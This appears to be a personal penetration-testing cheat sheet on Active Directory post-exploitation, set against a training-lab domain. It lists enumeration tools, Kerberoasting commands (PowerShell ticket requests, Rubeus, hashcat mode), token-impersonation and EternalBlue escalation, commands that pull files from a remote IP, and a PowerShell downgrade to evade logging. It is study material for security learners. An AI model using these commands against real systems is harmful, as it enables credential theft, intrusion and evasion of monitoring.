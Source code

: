 The final goal for a machine is to get to  `NT AUTHORITY\SYSTEM` 

## After initial access
Once we have gained access and got credentials, we can gather more information or connect to the host with the following methods:
 - CrackMapExec: with `-U <username> -p <password>` to query usernames, groups, logged on users, ...
- BloodHound: can be used to recover active sessions (logged on users)
- SMBmap
- Impacket: (psexec, wmiexec)
	- psexec: Create remote connection to host (via RPC) and give us an interactive remote shell as SYSTEM. Need a user with local admin privileges

#### Windows
- ActiveDirectory module for powershell
- powerview
- Snaffler (for credentials hunt in shares)
- BloodHound (for visualization) with SharpHound (for data collection)

## Methods for Privesc
- Try [[LLMNR & NBT-NS Poisoning]]
- Retry password spraying and hope to find an admin account
- Windows exploits, such as Eternal Blue
- Abusing running services (normal privesc)
- Kerberoasting
- Abusing `SeImpersonate` (check with `whoami /all`) with [Juicy Potato](https://github.com/ohpe/juicy-potato)
- Find other vulnerabilities with standard method or through `winpeas` (normal privesc)

### Kerberoasting
Abuses the Kerberos protocol to harvest password hashes (TGS ticket) for AD users with Service Principal Name (SPN) values (service accounts). These hashes can then either be cracked offline, or we can use pass-the-hash functionalities (in `evil-winrm` for example).

Steps:
- Find accounts with SPN
- Trigger kerberoast attack with tools such as Rubeus
- Take hashes offline and use hashcat -m 13100

Tools:
- GetUserSPN from Impacket (python)
- kerberoast ()
- targetedKerberoast
- Rubeus

#### From Windows
- Enumerate SPN with native command `setspn.exe`
- Manually: load ticket into memory using Powershell:
	- ```Add-Type -AssemblyName System.IdentityModel
	- `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
- using `setspn.exe`:
	- `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
- Extract ticket from memory using mimikatz
- Use kirbi2john
- hashcat

We have quicker method with tools doing most of the work:
- PowerView
- Rubeus
	- Example: `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

## Bloodhound
Running SharpHound/BloodHound is always a good idea on the target. It helps use see the paths that can be taken from our user to domain admins / domain controllers.

The results can be taken back locally on our machine and analysed.

#### Installation
Check [here](https://bloodhound.readthedocs.io/en/latest/installation/linux.html) for installation. Note you will need neo4j as a database to power it (`sudo apt-get install neo4j`, then run it, log in and **change the password**)

Simply run `./BloodHound --no-sandbox` to connect to the UI after you started `neo4j`.

#### Usage
To use bloodhound you first need to collect data from the target, which can be done with **sharphound** (uses windows API) or **bloodhound-python** on linux (available with ``sudo apt install bloodhound.py``)

Example:
```bash
bloodhound-python -ns <IP> -dc <domain-name> -u <username> -p <password> -c all
```
This will generate json files that can be drag-drop into bloodhound GUI


## Transfer Files
- `wget <ip> -o <target>`
- curl
- certutil
- `(New-Object System.Net.WebClient).DownloadFile(<ip>, <target>`
- scp
- ftp/tftp

## Living off the Land (LOTL)
- powershell can be downgraded with `powershell.exe -version 2`. Interesting as version 2 does not have log system enabled, meaning we will be stealthier
- Check defenses with `netsh` and `sc`
- Check network with: 
	- `arp -a`
	- `route print`
	- `ipconfig /all`
- Check WMI: Windows Management Instrumentation
- `Net` commands (accounts, group, localgroup, ..)
- [`dsquery`](https://www.aud507.com/media/DSQuery.pdf)
- [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2022-ps): check defenses

For other Powershell commands, check [[Powershell Cheatsheet]]

## Once admin
- enumerate the domain (with tool such as Bloodhound for example or windapsearch)
- Kerberoasting
- SMB relay attacks
- gather Net-NTLMv2 hashes
- token impersonation
- ACL attacks